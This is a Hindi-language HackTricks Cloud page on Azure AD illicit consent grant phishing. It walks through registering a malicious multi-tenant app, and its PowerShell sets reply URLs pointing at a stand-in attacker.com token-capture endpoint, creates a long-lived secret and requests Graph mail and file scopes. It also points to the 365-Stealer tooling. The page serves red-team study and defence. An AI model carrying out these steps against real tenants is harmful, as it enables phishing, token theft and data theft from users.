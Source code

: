 # Az - अनधिकृत सहमति अनुदान

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें।

</details>

## OAuth ऐप फ़िशिंग

**Azure एप्लिकेशन** **उपयोगकर्ता डेटा** तक पहुँच के लिए अनुमतियाँ मांगते हैं (मूल जानकारी, साथ ही दस्तावेज़ों तक पहुँच, ईमेल भेजना...).\
यदि **अनुमति दी गई है**, तो एक सामान्य उपयोगकर्ता केवल **"कम प्रभाव" वाली अनुमतियों** के लिए सहमति दे सकता है। **अन्य सभी** मामलों में, **व्यवस्थापक सहमति आवश्यक है**।\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और `एप्लिकेशनों को अनुमतियाँ देने की अनुमति` शामिल करने वाली एक कस्टम भूमिका टेनेंट-व्यापी सहमति प्रदान कर सकती है।

केवल वे अनुमतियाँ जिनके लिए **व्यवस्थापक सहमति की आवश्यकता नहीं है** को **कम प्रभाव** के रूप में वर्गीकृत किया जाता है। ये अनुमतियाँ **मूल साइन-इन के लिए आवश्यक हैं openid, profile, email, User.Read और offline\_access**। यदि कोई **संगठन** सभी ऐप्स के लिए उपयोगकर्ता सहमति की **अनुमति देता है**, तो एक कर्मचारी एक ऐप को उनकी प्रोफ़ाइल से उपरोक्त **पढ़ने के लिए सहमति दे सकता है**।

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

इसलिए, एक हमलावर एक **दुर्भावनापूर्ण ऐप** तैयार कर सकता है और **फ़िशिंग** के साथ, उपयोगकर्ता को **ऐप स्वीकार करने और उसका डेटा चुराने के लिए मना सकता है**।

### जांचें कि क्या उपयोगकर्ताओं को सहमति देने की अनुमति है

जांचें कि क्या उपयोगकर्ताओं को ऐप्स के लिए सहमति देने की अनुमति है:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **उपयोगकर्ता सहमति अक्षम करें** : उपयोगकर्ता एप्लिकेशन को अनुमतियाँ नहीं दे सकते।
* **उपयोगकर्ता सत्यापित प्रकाशकों या आपके संगठन के एप्स के लिए सहमति दे सकते हैं, लेकिन केवल उन अनुमतियों के लिए जो आप चुनते हैं** : सभी उपयोगकर्ता केवल उन एप्स के लिए सहमति दे सकते हैं जिन्हें एक सत्यापित प्रकाशक द्वारा प्रकाशित किया गया है और जो आपके टेनेंट में पंजीकृत हैं।
* **उपयोगकर्ता सभी एप्स के लिए सहमति दे सकते हैं** : यह सभी उपयोगकर्ताओं को किसी भी अनुमति के लिए सहमति देने की अनुमति देता है जिसके लिए प्रशासक सहमति की आवश्यकता नहीं है।
* **कस्टम एप्लिकेशन सहमति नीति**

## **अवैध सहमति अनुदान हमला क्या है?**

एक अवैध सहमति अनुदान हमले में, हमलावर एक **Azure-पंजीकृत एप्लिकेशन बनाता है जो संपर्क जानकारी, ईमेल, या दस्तावेज़ों जैसे डेटा तक पहुँच का अनुरोध करता है**। फिर हमलावर एक अंतिम उपयोगकर्ता को एप्लिकेशन के लिए सहमति देने के लिए चालाकी से बहकाता है ताकि हमलावर उस डेटा तक पहुँच प्राप्त कर सके जिस तक लक्षित उपयोगकर्ता की पहुँच है। एप्लिकेशन को सहमति देने के बाद, इसे संगठनात्मक खाते की आवश्यकता के बिना डेटा तक उपयोगकर्ता खाता-स्तर की पहुँच होती है।

सरल शब्दों में जब पीड़ित "Accept" के उस सुंदर नीले बटन पर क्लिक करता है, Azure AD एक टोकन भेजता है तीसरे पक्ष की साइट पर जो हमलावर के पास होती है जहाँ हमलावर उस टोकन का उपयोग पीड़ितों की ओर से कार्य करने के लिए करेगा जैसे कि सभी फाइलों तक पहुँचना, मेल पढ़ना, मेल भेजना आदि।

## **हमले का प्रवाह**

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

"ecorp" नामक कंपनी के खिलाफ इस हमले को करने के लिए, हमलावर ने "safedomainlogin.com" नाम से एक डोमेन पंजीकृत किया और एक उपडोमेन ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) बनाया जहाँ उन्होंने **प्राधिकरण कोड को कैप्चर करने के लिए एप्लिकेशन की मेजबानी की** और फिर पहुँच टोकन के लिए अनुरोध किया।

फिर, उन्होंने अपने Azure AD टेनेंट में एक मल्टी टेनेंट एप्लिकेशन पंजीकृत किया और इसे "ecorp" के रूप में नामित किया और रीडायरेक्ट URL जोड़ा जो "ecorp.safedomainlogin.com" की ओर इशारा करता है जो प्राधिकरण कोड को कैप्चर करने के लिए एक एप्लिकेशन की मेजबानी करता है।

हमलावर ने एक नया क्लाइंट सीक्रेट भी बनाया और एप्लिकेशन में कुछ API **अनुमतियाँ** जैसे `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` जोड़ीं। ताकि एक बार **उपयोगकर्ता एप्लिकेशन को सहमति दे दें**, हमलावर **संवेदनशील जानकारी** को **निकाल** सके उपयोगकर्ता की ओर से।

अंत में, हमलावर ने एक **लिंक** बनाया जिसमें दुर्भावनापूर्ण एप्लिकेशन की क्लाइंट आईडी शामिल थी और **लक्षित उपयोगकर्ताओं** के साथ लिंक **साझा** किया ताकि उनकी सहमति प्राप्त की जा सके।

## 365-Stealer

आप इस हमले को [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer) के साथ कर सकते हैं।

एक अतिरिक्त कदम के रूप में, यदि आपके पास पीड़ित संगठन में किसी उपयोगकर्ता पर कुछ **पहुँच है**, आप जांच सकते हैं कि क्या नीति उसे **एप्स को स्वीकार करने की अनुमति देगी**:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
इस हमले के लिए आपको **नया ऐप अपने Azure Tenant में बनाना होगा** (App registrations में) उदाहरण के लिए, निम्नलिखित अनुमतियों के साथ:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` `Microsoft Graph` में `Delegated permissions` के अंदर है। (Application permissions को हमेशा अतिरिक्त स्वीकृति की आवश्यकता होती है)।

* `User.ReadBasic.All` वह अनुमति है जो आपको **संगठन के सभी उपयोगकर्ताओं की जानकारी पढ़ने की अनुमति देगी** यदि अनुमति दी गई हो।
* याद रखें कि केवल `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और एक कस्टम भूमिका जिसमें `अनुप्रयोगों को अनुमतियाँ देने की अनुमति` शामिल है, वही पूरे टेनेंट की सहमति प्रदान कर सकते हैं। इसलिए, आपको **उन भूमिकाओं में से एक के साथ एक उपयोगकर्ता को फिश करना चाहिए** यदि आप चाहते हैं कि वह एक **ऐप को मंजूरी दे जिसके लिए व्यवस्थापक सहमति की आवश्यकता हो**।

आप cli के माध्यम से भी एक ऐप बना सकते हैं:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) पर जाकर इसे कॉन्फ़िगर करना सीखें।

{% hint style="warning" %}
ध्यान दें कि प्राप्त **access token** **graph endpoint** के लिए होगा जिसमें स्कोप्स होंगे: `User.Read` और `User.ReadBasic.All` (अनुरोधित अनुमतियाँ)। आप अन्य क्रियाएँ नहीं कर पाएंगे (लेकिन ये संगठन में सभी उपयोगकर्ताओं की जानकारी **डाउनलोड** करने के लिए पर्याप्त हैं)।
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

आप इस टूल का उपयोग करके भी इस हमले को अंजाम दे सकते हैं।

## पोस्ट-एक्सप्लॉइटेशन

एक बार जब आप उपयोगकर्ता तक पहुँच जाते हैं, तो आप संवेदनशील दस्तावेज़ चुराने और यहाँ तक कि बैकडोर्ड दस्तावेज़ फ़ाइलें अपलोड करने जैसी चीजें कर सकते हैं।

## संदर्भ

* यह पोस्ट [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) से कॉपी की गई थी।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
